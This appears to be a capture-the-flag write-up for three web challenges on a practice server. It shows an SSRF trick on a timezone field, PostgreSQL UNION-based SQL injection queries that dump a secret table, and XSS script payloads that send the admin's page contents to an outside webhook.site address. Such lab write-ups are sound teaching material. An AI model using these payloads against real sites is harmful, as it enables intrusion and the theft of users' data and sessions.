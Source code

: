 # Write-up for http://web.kazet.cc:31339/

## **SSRF** - http://web.kazet.cc:31339/time
By checking the Network tab, we can see that when loading any sub-page, 3 POST requests are being sent to the `/time` endpoint, with the timezone specified in their JSON like so:
```
curl 'http://web.kazet.cc:31339/time' \
-X POST 
-H 'User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:106.0) Gecko/20100101 Firefox/106.0' \
-H 'Accept: */*' \
-H 'Accept-Language: en-US,en;q=0.5' \
-H 'Accept-Encoding: gzip, deflate' \
-H 'Referer: http://web.kazet.cc:31339/send_article' \
-H 'Content-Type: application/json' \
-H 'Origin: http://web.kazet.cc:31339' \
-H 'Connection: keep-alive' \
-H 'Cookie: session=.eJwlzj0OwyAMQOG7MHcA_2Ccy0TYGLXKRpqp6t0bqeNbnr5P2ueK85m297rikfbXSFsaED2rMJJQmzEGEBfTbFypC7K45qI1MimzewxTbVrEgjpgdmfrMqYjEgv3aiI4hRQhc1Fx9-I4GkHMgDutRC73OdwbTIB0Q64z1l9zHARaQdP3B-FdMPk.Y11nRg.A9mOvfpy2LOQt4lHOZ5tG4wveCY' \
--data-raw '{"timezone":"newyork"}'
```
Let's try inputting a timezone not specified in the page's [script](http://web.kazet.cc:31339/static/script.js). By doing that we get an error message along the lines of:
```
{"info":"nie uda\u0142o si\u0119 pobra\u0107 http://dubai.timezone.internal","status":"error"}
```
Thus, `newyork` and the others must have been addresses of some internal services. Substuting the city name for `localhost` and adding "`/?`" leads to the "`.timezone.internal`" suffix being treated as a GET request's parameter. Reiterating, we call the curl above, tweaking the last line:
```
--data-raw '{"timezone":"localhost/?"}'
```
and it outputs the flag:
```
{"info":"FLAG{0c55606a072a912d264846cd22c95020e781}","status":"ok"}
```
---
## **SQL Injection** - http://web.kazet.cc:31339/stats/{year}
Resources used:
- https://portswigger.net/web-security/sql-injection/union-attacks
- https://portswigger.net/web-security/sql-injection/examining-the-database

After inputting an non-numeric string in place of the `year` in the url, we are presented with an SQL error. This hints to a SQL Injection being possible. Let's examine the database:
```pgsql
web.kazet.cc:31339/stats/1 AND 1 = 0 UNION SELECT version(), NULL --
```
The output is `PostgreSQL 15.0`. After playing with the `UNION` statement, we come to the conclusion that we can query two fields and the first one contains a string. With this knowledge, let's try to learn the database's tables, which in PostgreSQL is done by querying `information_schema.tables`:
```pgsql
web.kazet.cc:31339/stats/1 OR 1=0 UNION ALL SELECT table_name, NULL FROM information_schema.tables OFFSET 3--
```
We use the `UNION ALL` operator for no rows to get lost. The output shows a table with the name `interesting_and_secret_information`. The name suggests it is what we're looking for. Let's query its columns:
```pgsql
web.kazet.cc:31339/stats/1 OR 1=0 UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name='interesting_and_secret_information'--
```
This outputs a column with the name `secret_text_for_example_a_flag`. Let's view its type:
```pgsql
web.kazet.cc:31339/stats/1 OR 1=0 UNION SELECT data_type, NULL FROM information_schema.columns WHERE column_name='secret_text_for_example_a_flag'--
```

What's left is to view that secret text:
```pgsql
http://web.kazet.cc:31339/stats/1 OR 1=0 UNION SELECT secret_text_for_example_a_flag, NULL FROM interesting_and_secret_information --
```
It outputs:
```
FLAG{this_is_a_long_and_interesting_flag_9393265140f32ff7...
```
So we're almost there. Let's query for a substring of that result:
```pgsql
http://web.kazet.cc:31339/stats/1 OR 1=0 UNION ALL SELECT substring(secret_text_for_example_a_flag, 18), NULL FROM interesting_and_secret_information --
```
And so we get the entire flag:
```
ng_and_interesting_flag_9393265140f32ff7fc9f3b5bc9c065b3e6fdc4f4}
```

---
## **XSS** - http://web.kazet.cc:31339/send_article
Let's copy the POST request that submits the article for further use:
```
curl 'http://web.kazet.cc:31339/send_article' \
-X POST \
-H 'User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:106.0) Gecko/20100101 Firefox/106.0' \
-H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8' \
-H 'Accept-Language: en-US,en;q=0.5' \
-H 'Accept-Encoding: gzip, deflate' \
-H 'Content-Type: application/x-www-form-urlencoded' \
-H 'Origin: http://web.kazet.cc:31339' \
-H 'Connection: keep-alive' \
-H 'Referer: http://web.kazet.cc:31339/send_article' \
-H 'Cookie: session=.eJwlzj0OwyAMQOG7MHcA_2Ccy0TYGLXKRpqp6t0bqeNbnr5P2ueK85m297rikfbXSFsaED2rMJJQmzEGEBfTbFypC7K45qI1MimzewxTbVrEgjpgdmfrMqYjEgv3aiI4hRQhc1Fx9-I4GkHMgDutRC73OdwbTIB0Q64z1l9zHARaQdP3B-FdMPk.Y10YlA.tnVOglW7kp0X9pNztyb1ZEDXZ9E' \
-H 'Upgrade-Insecure-Requests: 1' \
--data-raw 'article=%3Cp%3E<CONTENTS>%3C%2Fp%3E'
```
where `<CONTENTS>` is whatever whe enter in the field, naturally it has to be [url-encoded](https://www.urlencoder.org/).

By viewing the input box's HTML it's evident that one can input any valid HTML, there's also no need for the enclosing `<p>` tags. So why not try some simple JS that pings a webhook of ours?
```html
<script>
   const webhook = 'https://webhook.site/82310b30-bdb3-45f9-8d46-92f9c44fcf0d';
   window.location.href = webhook + "?data=" + encodeURIComponent(document.body.innerHTML)
</script>
```
By executing this with the previous curl we get the webpage's HTML from the admin's perspective, which provides an additional tab/endpoint: `/send_feedback`. Let's refine our XSS script to view that sub-page:
```html
<script>
   const webhook = 'https://webhook.site/82310b30-bdb3-45f9-8d46-92f9c44fcf0d';

   fetch('/send_feedback')
      .then(response => response.text())
      .then(data => window.location.href = webhook + "?data=" + encodeURIComponent(data))
      .catch(err => window.location.href = webhook + "?err="  + encodeURIComponent(err));
</script>
```
On that sub-page we see a [Bootstrap form](https://getbootstrap.com/docs/4.0/components/forms/) and deduce the page can be queried with a POST request and a JSON whose fields are:
`["receiver", "content", "debug"]`. The `debug` checkbox looks promising - according to the comment, checking it will provide us with the system's diagnostic data. Let's try that:
```html
<script>
   const webhook = 'https://webhook.site/82310b30-bdb3-45f9-8d46-92f9c44fcf0d';
   var formData = new FormData();
   formData.append('receiver', 'kk429629'); // my login for the page
   formData.append('content', "Here's your diagnostics:");
   formData.append('debug', 'on');

   fetch('/send_feedback', { method: 'POST', body: formData })
      .then(response => response.text())
      .then(data => window.location.href = webhook + "?data=" + encodeURIComponent(data))
      .catch(err => window.location.href = webhook + "?err="  + encodeURIComponent(err));
</script>
```
After refreshing the page, we get:
```
Informacja zwrotna: Here's your diagnostics:
flaga: FLAG{752e8db03d875cfec6bdf8305756f1bb} 
```
